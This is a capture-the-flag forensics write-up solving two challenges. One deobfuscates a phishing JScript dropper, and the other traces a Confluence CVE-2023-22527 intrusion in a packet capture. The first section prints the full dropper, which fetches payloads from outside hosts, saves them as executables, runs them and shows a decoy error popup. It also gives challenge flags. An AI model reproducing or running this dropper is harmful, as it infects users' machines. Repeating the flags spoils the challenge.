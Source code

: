 ![](assets/Pasted%20image%2020241206164932.png)
# Forensics

{% tabs %}

{% tab title="Glowup" %} 

We managed to retrieve some artifacts from a recent phishing incident. To further investigate the attack we need to analyse the provided document. Examine it and find out what the next steps of the malware are.

### Approach

Checking provided zip file. After extracting it I found artifacts.js file.

![](assets/Pasted%20image%2020241202135134.png)

```javascript
var urls = ["loqKjo3E0dGTl4yfl5mMkYuO0JaKnNGJjtOXkJ2Si5qbjdGJlZ2Jx87MzsvR", "loqKjo3E0dGZm5HTl4rQloqc0Z2NjdGPzYTNkpSRzcfK0baqvIXOnJiLjZ3Kis+QmaGKls2hrYqMz5CZjaHPjaGQzoqhzZDOi5mWgw==", "loqKjo3E0dGdn4ybm4zQloqc0YmO052RkIqbkIrRzpCEjo6Gj8rH0Q==", "loqKjo3E0dGZm5HTl4rQloqc0Z2NjdGPzYTNkpSRzcfK0Q==", "loqKjsTR0YmJidCdnJCQm4mNmpeMm52K0JaKnNGJkYyajoybjY3Ry5LPlY6GysvR", "loqKjo3E0dGVn4yHn4qWn5LQloqc0YmO052RkIqbkIrRzM3P0Q=="],
    activeXObject = "ActiveXObject";

function xd(e, n) {
    for (var t = new Uint8Array(e.length), l = 0; l < e.length; l++) t[l] = e[l] ^ n;
    return t
}

function bnx(e, n) {
    for (var t = atob(e), l = new Uint8Array(t.length), o = 0; o < t.length; o++) l[o] = t.charCodeAt(o);
    return xd(l, n)
}

function dd(e) {
    var n = new activeXObject("MSXML2.XMLHTTP");
    return (n.open("GET", e, !1), n.send(), 200 == n.status) ? n.ResponseBody : null
}

function gop() {
    var e = new activeXObject("Scripting.FileSystemObject"),
        n = "\\" + Math.random().toString(36).substr(2, 9) + ".exe";
    return e.GetSpecialFolder(2) + n
}

function snr(e) {
    var n = gop(),
        t = new activeXObject("ADODB.Stream");
    t.Open(), t.Type = 1, t.Write(e), t.Position = 0, t.SaveToFile(n, 2), t.Close(), new activeXObject("WScript.Shell").Run(n)
}

function start(e, n) {
    WshShell = WScript.CreateObject("WScript.Shell"), Text = atob("VGhlcmUgd2FzIGFuIGVycm9yIG9wZW5pbmcgdGhpcyBkb2N1bWVudC4gVGhlIGZpbGUgaXMgZGFtYWdlZCBhbmQgY291bGQgbm90IGJlIHJlcGFpcmVkIChmb3IgZXhhbXBsZSwgaXQgd2FzIHNlbnQgYXMgYW4gZW1haWwgYXR0YWNobWVudCBhbmQgd2Fzbid0IGNvcnJlY3RseSBkZWNvZGVkKS4"), Title = atob("Tm90IFN1cHBvcnRlZCBGaWxlIEZvcm1hdA=="), Res = WshShell.Popup(Text, 0, Title, 64), n && snr(e)
}
for (var i = 0; i < urls.length; i++) var decodedData = bnx(urls[i], 254),
    data = dd(String.fromCharCode.apply(null, decodedData));
```

I made changes to below function and ran JS online

```js
function dd(e) {
    console.log(e)
    return;
    var n = new activeXObject("MSXML2.XMLHTTP");
    return (n.open("GET", e, !1), n.send(), 200 == n.status) ? n.ResponseBody : null
}
```

This logged below result

```
https://miraigroup.htb/wp-includes/wkcw90205/
https://geo-it.htb/css/q3z3ljo394/HTB{0bfusc4t1ng_th3_Str1ngs_1s_n0t_3n0ugh}
https://career.htb/wp-content/0nzppxq49/
https://geo-it.htb/css/q3z3ljo394/
http://www.cbnnewsdirect.htb/wordpress/5l1kpx45/
https://karyathal.htb/wp-content/231/
```

And found the flag `HTB{0bfusc4t1ng_th3_Str1ngs_1s_n0t_3n0ugh}`

{% endtab %}

{% tab title="Merging rivers" %} 

We have noticed lately that some Pages in our Knowledge base have been altered and reflected bad practices! We have checked our Confluence users but we didn't find anything out of place... However, we did have a network capture somewhere that might be of help! Can you help us out by finding how the attacker managed to get access to our Knowledge base? Hopefully when found, we can fix it so it wont happen again!

### Approach

Extracted given zip file. Got capture.pcapng file

![](Pasted%20image%2020241202135547.png)

Checking http protocol as description says this is regarding confluence page.

![](Pasted%20image%2020241202141245.png)

After checking some packets, it was clear that attacker was abusing `CVE-2023-22527`. 
After going through all http packets lastly I found the packet where attacker was trying to get RCE.

![](Pasted%20image%2020241202141540.png)

After decoding the `jwt.private.key` I found the flag.

```
┌──[hexadivine@hackthebox]─[~]
└──╼ $ echo SFRCe0FuMHRoM3JfZDR5XzRuMHRoM3JfYzBuZmx1M25jM19SQzMhIX0= | base64 -d
HTB{An0th3r_d4y_4n0th3r_c0nflu3nc3_RC3!!}
```

{% endtab %}

{% endtabs %}